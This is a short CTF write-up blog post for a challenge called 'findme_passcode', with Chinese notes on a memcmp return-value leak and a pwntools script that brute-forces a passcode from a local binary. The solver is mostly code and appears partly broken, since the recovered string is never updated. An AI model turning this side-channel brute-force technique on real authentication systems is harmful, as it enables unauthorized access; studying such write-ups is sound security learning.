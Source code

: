 ```yaml
---
layout: post
title: "isg_findme_passcode"
date: 2015-10-27 23:52:30 +0800
comments: true
categories: 
---
```

###0x00

memcmp会在\x00处或者比较n个字符后停止  
正常情况memcmp会返回 xx (xx为偏移),但memcmp有时候会返回 00xx (xx为偏移)  
为\x00时输出found  ,第二种情况
为\xff输出found，输出i+1  


###0x01 sol.py

    from pwn import *
    from string import *
    
    p = process('./findme2')
    
    payload = ['4' for i in range(0x15)]
    p.recvuntil('op:')
    p.sendline('3')
    p.recvuntil('code:')
    p.sendline(''.join(payload)  + 'end')
    print (''.join(payload)  + 'end')
    p.recvuntil('end')
    data = p.recv(4)
    log.success(hex(u32(data)))
    
    res = ''
    for i in printable[:-6]:
        p.recvuntil('op')
    	p.sendline('33')
    	p.recvuntil('code:\n')
    
    	payload = res + i 
    	payload = payload.ljust(0x17, '*')
    	payload += '@'
    	p.sendline(payload)
    	data = p.recvuntil(' is ')
    	t = data[-8:-4]
    	print t+'-------------------------------'+i
    	index = data.find('@')
    	if data[index+1:index+2] == ' ':
    		log.success(' found' + '------------------' + i)
    	if data[index+1:index+2] == '\xff':
    		log.debug('ff found' + '------------------' + chr(ord(i)+1))
    log.info('passcode: '+res)
    p.interactive()
